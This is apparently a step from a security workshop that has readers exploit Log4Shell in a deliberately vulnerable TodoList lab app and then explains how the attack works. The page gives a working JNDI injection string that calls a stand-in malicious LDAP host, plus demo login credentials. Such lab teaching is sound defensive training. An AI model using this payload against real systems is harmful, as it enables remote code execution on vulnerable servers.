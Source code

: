 +++
title = "Step 7: Exploit a Vulnerable Open Source component"
chapter = false
weight = 42
+++

## Exploiting an RCE vulnerability in the TodoList application. 

The `Goof` repo TodoList application includes various exploits to demonstrate the risks of open source vulnerabilities. We'll demonstrate the infamous Log4Shell vulnerability as an example of an extremenly profific open source package with a critical CVE that was relatively easy to exploit and gives malicous actors a remote code execution (RCE) vector of attack.

### Open the website
This example is best exploited from your browser so open a tab and navigate to the `todolist` application's loadbalancer address with `/todolist` appended to it.  That hostname was stored in the `TODOLIST_LB` variable during a prior section so you can easily get a string for the URL by echoing it out like this:


```sh
echo $TODOLIST_LB/todolist
```
```sh
a4b2da77928d242b38e4229083fc2669-2133201151.us-east-2.elb.amazonaws.com/todolist
```

When you open that URL in your browser, you should see the ToDoList welcome page
![todolist-welcome-page](/images/todolist-welcome.png)

### Log into the app
Click "Sign in" and log into the form with the following pre-populated user account:

* User: foo@bar.com
* Password: foobar

![todolist-login](/images/todolist-login.png)

### Trigger the exploit
In the search field enter the following string `${jndi:ldap://ldap.darkweb:80/#Vandalize}` and submit the search.
![todolist-search](/images/todolist-search-jndi.png)

### Vandalized!
Immediately, you can see that the header for the entire site has been modified to show a the hacker equivelent of graphiti!
![todolist-vandalized](/images/todolist-vandalized.png)

## What?  Why?
A full rundown of the Log4Shell issue is out of scope for this workshop but the high level description is:

* This application is pulling in an older version of the log4j open source library
* The log4j code (at that version) blindly interpolates the JNDI addresses and queries the network for remote values
* Search queries are being logged by the application using log4j
* When the interpolated `${jndi:ldap://ldap.darkweb:80/#Vandalize}` string was encountered, log4j queried an LDAP server named `ldap.darkweb` to ask for something named "/#Vandalize"
* 'ldap.darkweb' is a malicous LDAP impersonator that recognized this request and interacted with log4j code in a way that caused malicuous Java bytecode to be returned and run in the JVM by log4j
* That bytecode modified the header.jsp file in this webapp

The returned bytecode could have done far more mallicous things, not the least of which would be to open a remote, reverse shell into the container.

## Catching and stoping this
In the next step we will look into ways to catch and fix vulnerabilities like this.

